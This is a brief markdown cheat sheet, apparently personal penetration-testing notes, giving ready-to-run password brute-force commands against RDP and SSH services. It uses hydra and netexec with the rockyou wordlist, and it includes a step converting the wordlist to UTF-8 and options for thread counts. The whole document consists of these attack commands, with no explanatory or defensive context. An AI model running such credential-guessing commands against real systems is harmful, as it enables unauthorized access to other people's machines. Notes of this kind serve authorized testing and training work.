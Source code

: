# RDP
### hydra
```
hydra -l user -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.0.0
```
### netexec
```
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt -o /tmp/rockyou-utf8.txt
```

use default
```
netexec rdp 192.168.x.x -u user -p /tmp/rockyou-utf8.txt
```

thread 20
```
netexec rdp 192.168.x.x -u user -p /tmp/rockyou-utf8.txt -t 20
```

# ssh

### hydra
```
hydra -l eve -P wordlist 192.168.x.x -t 4 ssh -V
```

